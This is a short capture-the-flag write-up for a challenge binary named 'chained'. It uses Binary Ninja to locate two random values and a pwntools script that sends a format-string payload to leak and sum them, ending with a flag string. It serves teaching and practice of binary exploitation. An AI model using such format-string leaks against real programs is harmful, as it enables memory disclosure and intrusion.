 # [chained](https://github.com/ace-lii/ctf_writeups/blob/main/code/format_strings/chained)

* Open ***Binary Ninja*** as usual. Examine the main function to understand the logic. It generates two random numbers below 1000, sums them, and compares the result with the input.
![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained1.png?raw=true)


* Determine where these two random numbers are stored in memory using Binary Ninja.

![](https://github.com/ace-lii/ctf_writeups/blob/main/img/chained3.png?raw=true)

* Calculate the sum as you obtain values from the "random1/2" addresses. Use ***pwntools*** to play around with the chained.

```
from pwn import *

rdn1 = 0x0804a080
rdn2 = 0x0804a088

i = 13 # why 13 can use similar bash used in task2
sum = 0
p = process("./chained")
name = p32(rdn1) + p32(rdn2) + b" %" + str(i).encode() + b"$s " + b" %" + str(i + 1).encode() + b"$s"

print("\n\n--------------index is {} name is {}".format(i, name))

try:
    while True:
        prompt = p.recvline()
        print("\nprompt {}".format(prompt))

        if b"What is your name?" in prompt:
            p.sendline(name)
            try:
                prompt = p.recvline().strip(b"\x80\xa0\x04\x08\x88\xa0\x04\x08").strip()
                rdn1_val = int(prompt.split(b" ")[0])
                rdn2_val = int(prompt.split(b" ")[2])
                sum = rdn1_val + rdn2_val
                print("sum = {} r1 = {} r2 ={}".format(sum, rdn1_val, rdn2_val))
            except:
                pass
        elif b"Im thinking" in prompt:
            p.sendline(str(sum).encode())
            print(p.recvall())
            break
        elif b"totally wrong" in prompt:
            print("Reached the end of interaction")
        else:
            continue

except EOFError:
    print("EOFError: Process exited unexpectedly")

p.close()
```


> ENROL_IN_COMP6477

 

 
